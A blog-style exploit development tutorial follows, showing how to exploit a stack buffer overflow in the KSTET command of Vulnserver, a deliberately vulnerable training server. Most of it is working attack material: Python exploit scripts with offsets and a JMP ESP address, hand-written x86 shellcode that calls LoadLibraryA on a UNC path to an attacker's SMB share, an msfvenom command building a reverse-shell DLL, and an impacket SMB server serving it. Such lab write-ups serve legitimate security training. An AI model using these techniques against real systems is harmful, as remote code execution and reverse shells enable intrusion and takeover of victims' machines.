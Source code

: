 :slug: vulnserver-kstet-alternative/
:date: 2020-07-02
:category: attacks
:subtitle: Sideloading exploiting
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Philipp Katzenberger on Unsplash
:description: This post will show how to exploit the Vulnserver KSTET command loading the payload from an external source.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iIJrUoeRoCQ

= KSTET: DLL Side-loading exploit

This is an alternate take of the article of exploiting the
link:../vulnserver-kstet/[KSTET] command  of `Vulnserver`, a VbD
(Vulnerable-by-Design) application in which you can practice Windows
exploit development.

The `KSTET` exploitation is really interesting because after controlling
the instruction pointer `EIP`, we are left with little space to work on.

With that kind of restrictions, we must be very creative in order to achieve
a working exploit that triggers something complex like a reverse shell.
For example, in the exploitation of the `GTER`,
command, we have space restrictions too and we used an
link:../vulnserver-gter/[Egghunter] and
link:../vulnserver-gter-no-egghunter/[reused part of the WinSock stack]
to create a custom reverse shellcode. In the `KSTET` command article, we
used a technique called link:../vulnserver-kstet/[socket reusing].

In this post we will squeeze our space restriction a little more and use a
different exploitation technique.

I will shamelessly leave part of the article for the `KSTET` exploitation
and only divert it when needed.

`KSTET` take 2!

== Fingerprinting KSTET

Enumerating and fingerprinting is the most important step when verifying
the security of any target.

Let's check how the `KSTET` command behaves:

[source,console]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
KSTET hello
KSTET SUCCESSFUL
----

Well, easy enough. Now we are going to do the same but we will check it
under our debugger. I will use Immunity Debugger.

The first step is to identify where the `KSTET` command is processed.

We can do that by right clicking,
then `Search for -> All referenced text strings`, right click again, then
`Search for text` and type `KSTET`. Make sure that `Entire scope` is selected.
Now, select the match on where `KSTET` string is presented and set a
breakpoint:

image::debug1.gif[Debugging KSTET]

With that in place, we can start again our connection to `Vulnserver` and
see what happens under the hood:

image::debug2.gif[Debugging KSTET]

As you can see, several things are happening:

. Our breakpoint was reached when we typed `KSTET hello`.
. Several external functions are called, including `strncpy`, `malloc`,
`memset`.
. But there is one that stands out: `strcpy`, which will copy anything that
is on one buffer to another, without checking buffer boundaries.

Let's see what happens when we issue something larger than a `hello` to the
`KSTET` command:

image::crash1.gif[Crash]

Uggh! With a very short string, Vulnserver crashed and we overwrote `EIP`,
which means that we can control the execution flow of the application.

With that, we can start creating our proof-of-concept exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 200
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::poc1.gif[Crash]

That's good news. However, the injected string was really short and maybe
we'd have a narrow buffer space to work on.

== Checking available buffer space

If we check the state of the application after the crash, we will see this:

image::space1.png[Buffer space]

In the dump window (bottom left), we see our injected buffer. In the PoC,
we sent 200 `A` chars but as you can see here, the total amount of injected
bytes, including the word `KSTET` itself is only 0x63 or 99 bytes.

In the exploitation of `GTER` command, we had 140+ bytes to work on and we
used two techniques:
link:../vulnserver-gter-no-egghunter/[WinSocket stack reusing] and
an link:../vulnserver-gter/[egghunter].

The first one is not viable because altough we reduced the shellcode length to
the half, the resultant shellcode was 128 bytes.

We could use an `egghunter` here but that wouldn't be much fun. Why make it
easy if we can do it the hard way?

OK, let's start by checking the offset of the crash, by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from Metasploit:

[source,console]
----
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
----

And update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::offset1.gif[Cyclic pattern]

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where `EIP`
gets overwritten:

[source,console]
----
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
----

Now, check that offset by updating our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And run it:

image::offset2.gif[Cyclic pattern]

Wonderful! We know exactly how to overwrite `EIP` to get control over the
execution flow.

== Exploiting

As with the link:../vulnserver-trun/[TRUN] and link:../vulnserver-gter/[GTER]
commands, we have a direct `EIP` overwrite here and the `ESP` register
points directly to our controlled buffer. That means that we can look for
a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

[source,console]
----
!mona jmp -r esp -cp nonull -o
----

This would tell `mona` to look for instructions that can be used to jump to
`ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp nonull`) and
exlude OS DLLs (`-o`). The result is this:

image::mona1.png[JMP ESP]

We can choose any of those 9 pointers. I'll choose the one at `625011BB`.

Now, we can update the exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp1.gif[JMP ESP]

Great! However, as you can see, we landed to a 20 bytes buffer where we
put the `C` chars but we have 66 bytes above on the buffer of the `A` chars.

With a short jump backwards we can easily jump to that place:

image::jmp2.gif[JMP backwards]

The resultant bytes were `EB B5`. We can update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp3.gif[JMP backwards]

But again, we were brutally reminded that we have a narrow buffer space
to work on.

To workaround that constrain, we will use this time a sideloading technique
for injecting the needed payload from an adjacent computer.

== Dynamic linking

Commonly, when creating an exploit, you inject the required payload and
modify the instruction pointer `EIP` to point to your code. Then, the
victim application will execute the code you injected that can be a simple
`MessageBox` or anything complex like a `TCP` shell.

That payload, or shellcode, can only use calls to the OS API of modules
that the victim application has already loaded in memory.

The OS API is distributed on reusable files that can be linked to any
application. In Windows they are known as *Dynamic-Link Library* or `DLL`
files. Commonly, an application will load executable dependencies at
run-time using the OS dynamic linker.

We can see the `DLL` files loaded using several ways. On Vulnserver,
we will use our debugger again:

image::modules1.png[Executable modules]

That means that Vulnserver (and therefore, our shellcode) can execute any
function included on any of those modules.

However, there is a way for an application to include new libraries when it's
already running: *Dynamic Linking*. On Windows, it can be done with any of the
*LibraryLoad* functions family. Those functions are located on `KERNEL32.DLL`,
which is the module that exposes most of the Win32 base API and therefore
virtually any Windows application has it loaded at run-time.

As the injected shellcode is also part of the application, we can
dyncamically link any available `DLL` too.

With that ultra-simplified introduction to dynamic linking, it's time to write
some Assembler!

== Dynamic-included payload

The first thing to do is locate the address of `LoadLibraryA` on our system.
We can do that using the
link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

[source,console]
----
C:\Users\Fluid\Downloads\osce\tools>arwin.exe kernel32 LoadLibraryA
arwin - win32 address resolution program - by steve hanna - v.01
LoadLibraryA is located at 0x76460b30 in kernel32
----

*NOTE:* I'm using `Windows 10 Pro 20H2` at the moment of this writing. As
`ASLR` is enabled by default, the `LoadLibraryA` address will change on
every reboot.

We also need to know the `LoadLibraryA` parameters:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
[source,cpp]
----
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
----

Easy! The `lpLibFileName` is a string with the location of the `DLL` file to
be included. To our advantage, the location can be an Universal Naming
Convention (`UNC`) path in the form `\\server\share\file.dll`.

In Windows, that path would be resolved using the `SMB` protocol. That means
that we must expose that file using a `SMB` server, but we will get to that
later. For now, we can predict that the `UNC` path of our payload will
be at `\\attacker_ip\share\shell.dll`, in my case, it would be
`\\192.168.0.18\X\pwn.dll`.

To call `LoadLibraryA` on a `x86` architecture, we must push to the stack
the `lpLibFileName` value which is a pointer to the
`\\192.168.0.18\X\pwn.dll` string. As `x86` is a 32 bits architecture, we
must push exactly 4 bytes each time to the stack, and as we are pushing data
to the stack, it must be in reverse order. So, we need to convert
`\\192.168.0.18\X\pwn.dll` to hex, split it in chunks of 4 bytes, pad as
needed and reverse. This can be done with:

[source,console]
----
$ for i in $(echo -ne '\\\\192.168.0.18\\X\\pwn.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
push 0x6c6c642e
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
----

With the required information, we can now write the call to `LoadLibraryA`:

[source,x86asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\192.168.0.18\X\pwn.dll reversed
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76460b30      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\192.168.0.18\X\pwn.dll")'
----

We can compile that using `nasm`:

[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the shellcode using this:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x6c\x6c\x30\x30\x68\x5c
\x73\x68\x65\x68\x31\x38\x5c\x73\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36
\x68\x5c\x5c\x31\x39\xbb\x30\x0b\x46\x76\xff\xd3
----

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LOAD_LIBRARY = (
    b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e'
    b'\x68\x31\x38\x5c\x58\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68'
    b'\x5c\x5c\x31\x39\x54\xbb\x30\x0b\x46\x76\xff\xd3'
)

PAYLOAD = (
    b'KSTET ' +
    b'\x90' * 2 +
    LOAD_LIBRARY +
    b'A' * (70 - len(LOAD_LIBRARY) - 2) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::loadlib1.gif[LoadLibrary]

Great! The `LoadLibraryA` function is now ready.

== Show time

Now that we have everything set, we must now create a shellcode on a
`DLL` file and share it on a `SMB` server.

Luckily for us, `msfvenom` can create shellcodes in `DLL` format. Let's do
that:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f dll -o pwn.dll
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: pwn.dll
----

We also must serve that `pwn.dll` file on a `SMB` share called `X`. We can use
Impacket's `smbserver.py` to do that:

[source,console]
----
$ sudo impacket-smbserver -smb2support X .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
----
This will create a new anonymous `SMB` server, will share the current
directory `.`, using a share called `X`. The `-smb2support` parameter is
needed because Windows 10 will refuse to connect to `SMB` servers using
the `SMBv1` protocol.

We are now ready. We can check our exploit:

image::success.gif[Success]

Yes! We got a shell! You can see how the victim is self-hacking by retrieving
the payload from our attacking machine!

You can also see that `pwn.dll` is now part of the `vulnserver.exe`
executable modules:

image::modules2.png[Executable modules]

Crazy, huh? You can download the final exploit link:exploit.py[here]

== Conclusion

This was a very fun way for exploiting Vulnserver. Remember that this
technique only works if the attacking machine is adjacent to the victim
machine and there are not network restrictions between them.
